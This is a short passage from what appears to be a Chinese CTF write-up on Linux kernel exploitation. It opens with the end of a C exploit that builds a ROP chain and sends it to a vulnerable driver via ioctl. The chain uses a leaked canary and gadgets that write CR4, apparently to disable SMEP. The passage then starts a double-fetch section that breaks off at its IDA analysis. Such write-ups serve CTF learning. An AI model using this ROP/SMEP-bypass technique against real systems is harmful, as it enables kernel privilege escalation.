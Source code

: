 ```
        0,0,0,0, 0,0,0,0,
       canary,0,
        poprdi,
        0x6f0,
        0,
        movrdicr4_poprbp_ret,
        0,
        &payload
    };
    ioctl(driver_fd, 0x6001, &ropchain);
}
```

#### 三、double fetch

关于double fetch的基础介绍ctf-wiki上已经很详细了，这里就主要结合题目来进行分析： https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/double-fetch-zh/

![](./img/16.png)

ida分析:
